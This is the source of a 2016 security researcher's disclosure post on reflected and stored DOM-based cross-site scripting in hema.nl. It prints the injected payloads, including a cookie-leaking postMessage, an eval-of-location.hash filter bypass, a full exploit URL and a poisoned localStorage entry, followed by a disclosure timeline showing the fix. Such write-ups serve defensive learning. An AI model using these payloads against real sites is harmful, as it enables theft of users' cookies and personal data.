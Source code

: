 ```yaml
---
title: Cross-site-scripting on one of the largest Dutch franchisors
subtitle: Reflected and "Stored" DOM-based cross-site-scripting on hema.nl
description: By abusing a sensitive data exposure vulnerability it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.
date: 2016-12-20 21:14:41
---
```


By abusing a sensitive data exposure vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure" %}) it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting ({% customlink "https://www.owasp.org/index.php/Cross_Frame_Scripting" %}). Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.

> Please note that I used FireFox to test this vulnerability since browsers like Chrome, Safari and Edge have built in XSS auditors, which filter most of the reflected XSS.

> {% customlightbox "image-chrome-xss-auditor" "xss-auditor-block.png" "Google Chrome's XSS auditor" %}

### Proof of Concept (reflected XSS)
While examining hema.nl I found some interesting XHR calls. One of them was `ListerQuickView.aspx`, which contained a lot of GET parameters.

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=12345`

I tried to inject JavaScript in all the parameters but it didn't really work. Especially because they blocked all requests if the URL contained a `<` sign followed by another character. The value of one of the parameters, `productSku`, was used as an attribute value. This made it possible to execute JavaScript using the `onmousemove` event. Unfortunately the `onload` event couldn't be used since the element it got injected in was a div.

You can find the payload I used below. The inline CSS causes the div to overlap all content (this increases the chance that `onmousemove` is triggered). The `parent.postMessage` passes the cookie to the parent frame on mouse move.

`&productSku=tes" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="parent.postMessage(cookie, '*')">as`

Which resulted in the following HTML:

{% customlightbox "image-xss-payload" "xss-payload-in-source.jpg" "Payload in HTML" %}

We can now place this piece of art in an iframe, which results in cross frame scripting.

### Proof of Concept (Stored DOM-based XSS)

Making it "Stored DOM-based XSS" is a bit more difficult. I divided it into two steps, bypassing the input restrictions and inserting the JavaScript payload into the local storage.

#### Bypassing Hema's input restrictions

The DOM-based XSS vulnerability contains a little bit more code. Lets use the previous payload and edit it to look like this: 

`data-message="message" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="eval(location.hash.substring(1))"`

This code executes the JavaScript from the `location.hash`. I used `location.hash` since hema.nl blocks a lot of characters, like `<` and `{`, and the `location.hash` will not be included in the request, so hema.nl will never know about it.

In my location hash I wrote `#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)})`.

I use `arguments[0].originalTarget.attributes[4].value` (where `arguments[0]` is the `onmousemove` event) to get the value of the fourth attribute of our div, which is the string `message`. I couldn't just add the string `"message"` to `addEventListener` since quotes in the hash are converted to `%22`, which results in an unexpected `%` character.

So all this code basically sets a listener for messages on mouse move. Using cross frame scripting we can now execute all the code we want in the hema.nl iframe using `postMessage`.

`document.getElementById('hema').contentWindow.postMessage('alert(document.cookie)', '*')`

Which results in:

{% customlightbox "image-alert-cookie" "xss-alert-cookie.png" "Alert on mouse over" %}

This is the full URL that I used:

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=tes%22%20data-message=%22message%22%20style=%22width:100%;height:100%;position:absolute;top:0;left:0;%22%20onmousemove=%22eval(location.hash.substring(1))%22%20data-test=%22as#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)});`

#### Making it "Stored DOM-based XSS"

Hema stores some interesting JSON in the local storage. For example, they store all the products that I added to my favorites.

A product that I added to my favorites looks like this:

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

And ofcourse, using our postMessage, we can edit it so it looks like this (note the `onload` in the imgUrl):

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg\" onload=\"alert(document.cookie)",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

Hema loads the favorites and shows the image without encoding the URL. Which means every time the victim navigates to hema.nl an alert will pop up.

So there you go, Stored DOM-based XSS!

{% customlightbox "image-stored-dom-based-xss-alert-cookie" "xss-stored-proof.png" "Stored DOM-based XSS in hema.nl" %}

### Domains
{% raw %}
<a href="http://www.hema.nl/" target="_blank" rel="noopener">www.hema.nl</a> (vulnerable)
<br>
<a href="http://www.hema.fr/" target="_blank" rel="noopener"><s>www.hema.fr</s></a> (protected by CloudFlare)
<br>
<a href="http://www.hema.be/" target="_blank" rel="noopener"><s>www.hema.be</s></a> (not vulnerable)
<br>
<a href="http://www.hemashop.com/" target="_blank" rel="noopener"><s>www.hemashop.com</s></a> (not vulnerable)
{% endraw %}

### Timeline
{% raw %}
<div class="table-responsive">
	<table class="table">
		<thead>
			<tr>
				<th>Date</th>
				<th>Activity</th>
			</tr>
		</thead>
		<tbody>
			<tr>
				<td>11 Dec 2016 18:43:34 GMT</td>
				<td>Reported the vulnerability to Hema.</td>
			</tr>
			<tr>
				<td>12 Dec 2016 09:23:21 GMT</td>
				<td>Hema is investigating the vulnerability.</td>
			</tr>
			<tr>
				<td>15 Dec 2016 13:54:56 GMT</td>
				<td>Hema confirmed the vulnerability.<br>Hema will be releasing a fix in week 51.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:11:44 GMT</td>
				<td>Hema fixed the vulnerability.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:14:41 GMT</td>
				<td>Public disclosure.</td>
			</tr>
		</tbody>
	</table>
</div>
{% endraw %}